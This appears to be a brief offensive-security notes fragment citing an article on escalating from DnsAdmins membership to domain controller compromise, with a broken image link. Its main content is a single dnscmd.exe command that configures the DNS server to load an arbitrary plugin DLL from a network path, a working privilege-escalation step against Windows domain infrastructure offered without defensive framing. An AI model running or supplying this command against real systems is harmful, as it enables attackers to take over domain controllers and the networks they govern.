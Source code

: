 https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83

## Load dll
```powershell
dnscmd.exe /config /serverlevelplugindll \\path\to\dll
```